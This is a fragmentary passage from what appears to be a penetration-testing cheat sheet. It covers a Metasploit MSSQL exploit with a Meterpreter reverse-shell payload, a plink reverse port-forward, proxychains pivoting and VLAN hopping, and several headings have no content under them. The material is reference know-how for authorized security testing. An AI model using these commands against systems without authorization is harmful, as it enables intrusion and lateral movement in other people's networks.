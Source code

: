 ```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

### Network <a href="#network" id="network"></a>

#### Plink.exe Tunnel <a href="#plinkexe-tunnel" id="plinkexe-tunnel"></a>

PuTTY Link tunnel

Forward remote port to local address:

```
plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP
```

#### Pivoting <a href="#pivoting" id="pivoting"></a>

**SSH Pivoting**

Add socks4 127.0.0.1 1010 in /etc/proxychains.conf

SSH pivoting from one network to another:

Add socks4 127.0.0.1 1010 in /etc/proxychains.conf

Add socks4 127.0.0.1 1011 in /etc/proxychains.conf

**Meterpreter Pivoting**

#### TTL Finger Printing <a href="#ttl-finger-printing" id="ttl-finger-printing"></a>

#### IPv4 Cheat Sheets <a href="#ipv4-cheat-sheets" id="ipv4-cheat-sheets"></a>

**Classful IP Ranges**

E.g Class A,B,C (depreciated)

**IPv4 Private Address Ranges**

**IPv4 Subnet Cheat Sheet**

Subnet cheat sheet, not really realted to pen testing but a useful reference.

#### VLAN Hopping <a href="#vlan-hopping" id="vlan-hopping"></a>

Using NCCGroups VLAN wrapper script for Yersina simplifies the process.

```
git clone https://github.com/nccgroup/vlan-hopping.git
chmod 700 frogger.sh
./frogger.sh 
```

#### VPN Pentesting Tools <a href="#vpn-pentesting-tools" id="vpn-pentesting-tools"></a>
